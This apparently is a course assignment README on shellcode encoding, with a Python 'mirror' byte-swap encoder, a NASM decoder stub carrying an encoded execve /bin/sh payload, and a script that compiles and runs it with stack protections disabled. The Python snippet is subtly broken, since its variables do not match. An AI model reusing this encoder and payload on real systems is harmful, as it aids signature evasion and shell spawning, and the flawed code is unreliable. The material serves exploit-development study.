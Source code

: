 # Assignment 4

## What to do:

-Create a custom encoding scheme like the “Insertion Encoder” we showed you. 

-PoC with using execve-stack as the shellcode to encode with your schema and execute.

## Solution: 
  1) Create the encoder.
  
  The encoder created (Mirror_encoder.py) takes the every 4 bytes of the shellcode and reverse its order, meaning, if the string taken is 0x45a3, the resultant will be 0xa345 (this is done until the end of the shellcode is reached). In case the shellcode has not even length, 0xf0 is added to the end of the shellcode to allow the "mirror" modification. 0xf0f0 is appended to the final shellcode as the marker which will be used to stop the nasm decoder.
    
  ###### Mirror-Encoder.py
  
    for x in bytearray(shellcode):  #Add to shell the shellcode as hexadecimal format
      shell += '\\x' + '%02x' % x

    shell2 = ""
    for i in range(0,4*len(bytearray(shellcode)),8): #Loop which takes 2 bytes and swap its order
      if (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==6:
        shell3 += "0"+ shell[i+5:i+8] + "," + "0"+shell[i+1:i+4] + ","
      elif (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==3: #If the length of the shellcode is not even, it is added 0xf0 to make it even. 
        shell3 += "0xf0" + "," + "0"+shell[i+1:i+4] + ","


    print shell2 + "0xf0,0xf0" #Marker to finish the decoder
    
  2) PoC with using execve-stack as the shellcode to encode.
  
   * The shellcode to be used is the one obtained from the execve-stack binary.
    
    nasm -f elf32 -o execve.o execve.nasm
    ld -o execve execve.o
    objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
   
   3) Create the nasm decoder.
   
   * The shellcode obtained in the earlier step, must be passed to Mirror_Encoder.py where is "mirrored".
   
   * Now, we have the shellcode to inject into the Mirror_decoder.nasm
   
   ###### Mirror-decoder-compile.sh
  
      global _start			

      section .text
      _start:

        jmp short call_shellcode  ;jump-call-pop technique

      decoder:

        pop esi			; pop shellcode into esi
        lea edi, [esi]		; Copy the position in memory of the shellcode to edi, where we will save the decoded one
        xor eax, eax		; Clearing out eax and ecx
        xor ecx, ecx

      decode:
        mov ax, [esi]                ; Moves the first to bytes of esi to ax
        mov cx, ax		     ;Moves ax to cx to check if it is the end of the shellcode
        xor cx, 0xf0f0               ; Compare cx with 0xf0f0 marker
        jz short EncodedShellcode    ; if xor os 0, jump to shellcode
        mov byte [edi], ah           ;Move the second byte to the first byte of edi
        mov byte [edi + 1], al;      ; Move the first byte to the second byte of edi --> 0x31c0 moves to 0xc031 in edi 	
        inc edi			     ; move to next byte in edi
        inc edi			     ; move to next byte in edi	
        inc esi			     ; move to next byte in esi
        inc esi                      ; move to next byte in esi 
        jmp short decode	     ; jump back to start of decode

      ;Modifications can be vieweb by using x/20xc *call during execution (gdb)	

      call_shellcode:

      call decoder
      EncodedShellcode: db 0xc0,0x31,0x68,0x50,0x2f,0x2f,0x68,0x73,0x2f,0x68,0x69,0x62,0x89,0x6e,0x50,0xe3,0xe2,0x89,0x89,0x53,0xb0,0xe1,0xcd,0x0b,0xf0,0x80,0xf0,0xf0,0xee,0xee

4) Compiling the final shellcode
    
* Once the nasm code is finished, we can use mirror-decoder-compile.sh to assembly and link it, copy the shellcode to the skeleton_shellcode.c, compile the final shellcode and execute it.
   
    ###### Mirror-decoder-compile.sh
    
          echo '[+] Assembling with Nasm ... '
          nasm -f elf32 -o mirror-decode.o mirror-decode.nasm

          echo '[+] Linking ...'
          ld -o mirror-decode mirror-decode.o

          echo '[+] Done!'

          sleep 2

          echo "[+] Dumping disassembling code.."

          objdump=$(objdump -d ./mirror-decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

          echo $objdump 
          sleep 3

          echo "[+] Compiling shellcode.c and executing it.."

          cp skeleton_shellcode.c shellcode.c  #Copy the skeleton of the shellcode (it contais a string named shellcode which it will be replaced with objdump)

          replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump

          sleep 2

          gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode


          ./shellcode    
